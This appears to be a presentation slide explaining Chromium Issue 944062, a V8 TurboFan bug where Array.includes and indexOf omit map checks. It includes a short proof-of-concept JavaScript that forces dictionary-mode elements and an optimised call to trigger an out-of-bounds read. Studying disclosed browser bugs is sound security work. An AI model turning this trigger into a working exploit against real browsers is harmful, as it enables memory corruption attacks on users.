

# Chromium Issue 944062 – Failing to insert Map checks in Array.indexOf and Array.includes
The vulnerability occurs because the function fails to account for the case where the map that is inferred is unreliable.
Proof of concept:

__defineSetter__, when called on an index, will immediately change the array’s ElementsKind to DICTIONARY_ELEMENTS.
%OptimizeFunctionOnNextCall is a V8 native built-in function that causes TurboFan to compile the function that’s called immediately after.
function f(idx, arr) {
  // Transition to dictionary mode in the final invocation.
  arr.__defineSetter__(idx, ()=>{});
  // Will then read OOB.
  return arr.includes(1234);
}

f('', []);
f('', []);
%OptimizeFunctionOnNextCall(f);
f('1000000', []);